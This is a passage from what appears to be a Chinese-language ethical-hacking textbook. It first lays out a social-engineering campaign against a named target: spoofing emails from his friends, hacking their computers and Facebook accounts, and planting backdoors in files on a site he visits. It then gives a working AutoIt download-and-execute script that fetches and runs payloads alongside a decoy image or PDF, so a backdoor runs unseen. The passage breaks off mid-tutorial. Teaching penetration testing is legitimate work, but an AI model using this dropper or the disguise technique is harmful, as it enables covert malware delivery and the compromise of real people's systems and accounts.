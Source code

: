 当我们发送一封电子邮件时，我们可以发送看起来像是来自穆罕默德的邮件，我们也可以对穆斯塔法做同样的事情。所以我们可以向扎伊德发送内容，发送他们都感兴趣的东西，或者发送图片，或者发送要求他登录并做某事的链接；在社会工程学方面，可能性是无穷无尽的。不仅如此，假设我们尝试了所有方法，仍然无法黑入扎伊德的系统。我们假装成所有这些人，并尝试了我们能想到的所有方法，但仍然无法进入扎伊德的系统。这并不是世界末日；相反，我们可以尝试黑入他某个朋友的电脑。所以我们可以尝试黑入穆罕默德的电脑或者穆斯塔法的电脑。从那里，我们会尝试进入他们的 Facebook 账户，然后通过 Facebook 与扎伊德沟通，因为我们无法在 Facebook 上发送看起来像是来自穆罕默德的消息，我们只能通过电子邮件做到这一点，但同样，我们可以黑入这些人的 Facebook 账户，然后尝试黑入扎伊德的账户。为什么不黑入他们的 isecur1ty 账户呢？我们知道这些人是管理员，他们有`@isecur1ty.org`的邮箱。我们可以黑入他们的电脑，再黑入`isecur1ty.org`。扎伊德肯定浏览过 isecur1ty，所以我们可以在里面埋下一个后门，或者将托管在 isecur1ty 上的某个文件改成后门，然后一旦扎伊德下载或使用它，我们就能黑入他的电脑。

在下一节中，我们将学习如何发送这些假邮件、创建这些后门、制作这些键盘记录器，以及所有那些酷炫的东西。现在，我只是想展示 Maltego 的强大功能，以及我们如何利用它收集关于任何事物的信息。我们从一个名字——Zaid Sabih 开始，能够收集到关于他的网站、博客、YouTube 频道、朋友和邮件的信息。再次强调，这个人是一个技术爱好者，热衷于信息技术，所以他在分享个人信息时非常小心，但我们仍然能够收集到足够的信息来制定攻击策略。如果我们对一个普通人做这些事情，我们会惊讶于能收集到多少信息。

# 下载并执行 AutoIt

在本节中，我们将学习如何将我们创建的后门与任何其他文件类型结合，使其在执行时显示一张图片、一个 PDF 文件、一首歌曲或其他目标人物感兴趣的内容。通过这种方式，我们将能够利用社会工程学让他们运行我们的后门，而他们看到的将是他们信任的内容，但我们的后门将会在后台运行。我们将通过一个下载并执行脚本来实现这一点，该脚本基本上会下载后门，下载目标人物期望的文件，执行目标人物期望的文件，并在后台运行后门。下载并执行脚本包含在资源中，可以在本书的 GitHub 仓库中找到。下载文件后，打开文件，我们可以看到脚本中使用的代码：

```
#include <StaticConstants.au3>
#include <WindowsConstants.au3>

Local $urls = "url1,url2"

Local $urlsArray = StringSplit($urls, ",", 2 )

For $url In $urlsArray
  $sFile = _DownloadFile($url)
  shellExecute($sFile)

Next

Func _DownloadFile($sURL)
    Local $hDownload, $sFile
    $sFile = StringRegExpReplace($sURL, "^.*/", "")
    $sDirectory = @TempDir & $sFile
    $hDownload = InetGet($sURL, $sDirectory, 17, 1)
    InetClose($hDownload)
    Return $sDirectory
EndFunc ;==>_GetURLImage
```

该脚本被编程为我们可以用它下载和执行任何东西，任何数量的文件。因此，我们只需在 `Local $urls` 参数中输入文件的链接或 URL，并用逗号分隔这些链接。这样我们就可以输入 URL 并继续下去。我们可以使用这个脚本来下载和执行两个可执行文件、三个可执行文件，或者我们想要的任何数量的文件。现在，我们将输入我们希望目标人物看到的文件。这个文件需要能够在线获取，并上传到一个直接链接，以便从该链接下载。为了这个示例，我们将使用一张图片，但我们可以使用任何其他文件类型，甚至让他们打开一个 PDF 文件，或者任何其他我们想要的内容。

因此，浏览 Google 图片并寻找一张图片。点击并打开图片，右键单击图片，然后点击“复制图片地址”：
